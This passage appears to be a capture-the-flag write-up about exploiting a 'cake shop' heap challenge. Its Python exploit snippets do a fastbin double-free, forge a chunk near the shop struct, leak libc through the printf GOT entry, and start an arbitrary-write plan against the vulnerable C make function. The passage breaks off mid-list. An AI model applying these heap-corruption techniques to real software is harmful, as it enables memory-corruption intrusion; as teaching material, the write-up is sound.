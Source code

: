 I started writing a python exploit to do this (I will show the full source at the end):
```python
    shop = 0x6030e0 # this is the address of the shop struct in the bss section
    A = alloc(p, "", 16) #Set the price to 16
    B = alloc(p, "", 17) # set the price to 17
    free(p, A) # A->next NULL, A = fastbin freelist top
    free(p, B) # B->next = A, B = fastbin freelist top
    free(p, A) # A->next = B, A = fastbin freelist top
    # overwrite A->next with fake chunk before shop. (set shop->price and fchunk size)
    C = alloc(p, "", int(shop-0x8))
```
Then we get it returned by malloc by repeatedly getting malloc to return the fastbin HEAD by allocating more cakes.
Our goal right now is to leak libc, so lets overwrite the shop->counter\[0] with the address of the printf got entry

```python
    p_plt = 0x603048 # &printf.got
    D = alloc(p, "", 0) # next malloc returns B
    E = alloc(p, "", 0) # this alloc returns A
    # Next alloc returns shop+0x8. Overwrite customers with shop-0x8 and counter[0] with got addr
    F = alloc(p, struct.pack("L", p_plt), 0)
```
We can now inspect the first, cake, and the price variable will be the printf got entry!
```
pÒM is being sold for $139972221822976
[*] libc base is at: 0x7f4dd28a1000
```
Now that we have leaked libc, we have to find a way to write a value somewhere that will redirect code execution. Without controlling the size of our chunks, we only can use a fastbin attack to return places that have a fastbin size the same as 0x21. Hmm... We already control the shop, can we maybe use that to write somewhere?
Lets look at the make function again:
```C
void make(struct shop *shop)
{
	int idx = 0; 
	while (idx <= 0x10) {
		if (idx == 0x10) {
			printf("Ran out of counter space\n");
			return;
		}
		if (shop->counter[idx]) {
			idx++;
			continue;
		}
		printf("Making the cake\n");
		shop->counter[idx] = malloc(sizeof(struct cake)); /*cake has size 0x10*/
		if (!shop->counter[idx]) {
			printf("malloc returned NULL. Out of memory\n");
			exit(1);
		}
		printf("Made cake %d.\nName> ");
		fgets_eat(shop->counter[idx]->name, 8);
		printf("Price> ");
		shop->counter[idx]->price = get();
		break;
	}
}
```
Well the counter\[idx] is dereferenced twice, is it possible for us to change the value of it between dereferences? We already can control counter\[0]. If we can get
```fgets_eat(shop->counter[0]->name, 8);``` to overwrite ```counter[0]``` with our target address, then ```shop->counter[0]->price = get();``` gives us arbitrary write. 

The requisites to do this are:
* The make function requires that counter\[idx] be NULL otherwise we can't overwrite it.
```